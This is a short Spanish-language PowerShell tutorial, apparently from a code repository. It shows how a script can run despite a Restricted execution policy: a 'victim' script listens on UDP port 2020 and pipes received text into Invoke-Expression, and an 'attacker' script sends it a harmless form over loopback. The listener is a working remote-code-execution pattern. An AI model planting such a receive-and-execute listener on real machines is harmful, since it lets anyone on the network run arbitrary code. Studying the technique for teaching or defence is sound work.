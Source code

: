## TRANSMITIR FORMULARIO CON POLITICA DE SEGURIDAD RESTRICTED

Usaremos el modelo [Cliente Servidor](https://www.jesusninoc.com/12/29/server-and-client/)


 ACTIVAMOS LAS POLÍTICAS DE SEGURIDAD
 
```POWERSHELL
set-executionpolicy restricted 
```
Y CREAMOS EL FORMULARIO EN UN ARCHIVO .PS1 (TODO EN UNA LINEA Y SEPARAMOS LAS LINEAS CON ";")

```POWERSHELL
using assembly System.Windows.Forms;using namespace System.Windows.Forms;$form = [Form] @{Text = 'Queipo'};$button = [Button] @{Text = 'Pulsa que yo te aviso'; Dock = 'Fill'};$form.Controls.Add($button);$form.ShowDialog()
```
---------------------

EJECUTAR PRIMERO VÍCTIMA Y DESPUÉS ATACANTE

### VICTIMA

```POWERSHELL
$port=2020
$endpoint = new-object System.Net.IPEndPoint ([IPAddress]::Any,$port)
$udpclient=new-Object System.Net.Sockets.UdpClient $port
$content=$udpclient.Receive([ref]$endpoint)
$reci= [Text.Encoding]::ASCII.GetString($content)
$udpclient.Dispose()
$reci | iex
```

### ATACANTE

```POWERSHELL
$txt= get-content formulario.ps1
$port=2020
$endpoint = new-object System.Net.IPEndPoint ([IPAddress]::Loopback,$port)
$udpclient=new-Object System.Net.Sockets.UdpClient
$b=[Text.Encoding]::ASCII.GetBytes($txt)
$bytesSent=$udpclient.Send($b,$b.length,$endpoint)
$udpclient.Close()
```

